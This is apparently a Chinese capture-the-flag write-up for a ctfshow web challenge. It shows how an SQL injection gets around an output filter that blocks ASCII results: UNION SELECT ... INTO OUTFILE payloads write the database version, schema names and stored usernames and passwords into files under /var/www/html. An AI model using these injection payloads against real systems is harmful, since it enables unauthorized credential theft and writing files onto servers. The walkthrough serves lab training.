









同样存在输出过滤

同时/[\x00-\x7f]/是一个正则匹配，用于匹配任何 ASCII 字符。

即输出结果不能存在字符


将查询结果写入文件


首先还是闭合单引号，注释后续内容

```
1' --+
```




然后利用order by 确定回显数

```
1' order by 3 --+
```



order by 3报错

```
1' order by 2 --+
```



order by 2正常


查询数据库及版本信息

利用into outfile写入网站目录

```
1' union select database(),version() into outfile '/var/www/html/1.txt' --+
```





查询版本信息

```
1' union select 1,version() into outfile '/var/www/html/2.txt' --+
```




查询表名

```
1' union select 1,table_name from information_schema.tables where table_schema='ctfshow_web' into outfile '/var/www/html/3.txt' --+
```




查询字段名

```
1'union select 1,column_name from information_schema.columns where table_name='ctfshow_user5' into outfile '/var/www/html/4.txt' --+
```




查询字段数据

```
1' union select username,password from ctfshow_user5 into outfile '/var/www/html/5.txt'--+
```



得到flag